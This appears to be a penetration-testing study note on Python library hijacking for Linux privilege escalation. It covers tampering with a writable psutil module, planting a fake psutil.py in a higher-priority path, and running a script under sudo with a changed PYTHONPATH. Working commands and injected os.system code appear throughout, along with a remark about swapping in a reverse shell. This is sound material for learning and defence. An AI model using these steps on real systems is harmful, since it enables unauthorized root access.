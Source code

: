 Three basic vulnerabilities where hijacking can be used:
1. Wrong write permissions
2. Library Path
3. PYTHONPATH environmnet variable

## Wrong Write Permissions

If SUID/SGID permissions have been assinged to the Python script that imports a module with bad permissions, our code will automatically be included

**Python Script with SUID set
```shell-session
ls -l mem_status.py
```
- shows s as a permission

Say the Python script has this:
```shell-session
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```
- We notice it uses psutil for the virtual_memory() function

**Check if module has write permissions for us
```shell-session
grep -r "def virtual_memory" /usr/local/lib/python3.8/dist-packages/psutil/*
ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

**Insert right at the beginning of the function the hijacking
```shell-session
def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret
```

**Run script as sudo
```shell-session
sudo /usr/bin/python3 ./mem_status.py
```
- Now, we can put a reverse shell and run as root


## Library Path

Requirements:
1. The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable
2. We must have write permissions to one of the paths having priority on the list.

Python imports modules based on a priority list
```shell-session
python3 -c 'import sys; print("\n".join(sys.path))'
```

**Psutil Default Installation Location
```shell-session
pip3 show psutil
```

Based on this priority list, we find that /usr/lib/python3.8 is higher on the list than /usr/local/lib/python3.8/dist-packages and is also writable, so we meet the requirements.

**Create Hijacked Module Contents - psutil.py in /usr/lib/python3.8
```shell-session
#!/usr/bin/env python3

import os

def virtual_memory():
  os.system('id')
```
- The hijacked module must have the same name as the import and same function with correct amount of arguments in order to run

**Privilege Escalation via Hijacking Python Library Path
```shell-session
sudo /usr/bin/python3 mem_status.py
```

## PYTHONPATH Environment Variable

PYTHONPATH is an environment variable that indicates what directory Python can search for modules to import

**Check sudo permissions
```shell-session
sudo -l
```
- If /usr/bin/python3 can be run with sudo, we can do this

**Privilege Escalation using PYTHONPATH Environment Variable
```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
```
- We moved the previous python script from /usr/lib/python3.8 to /tmp
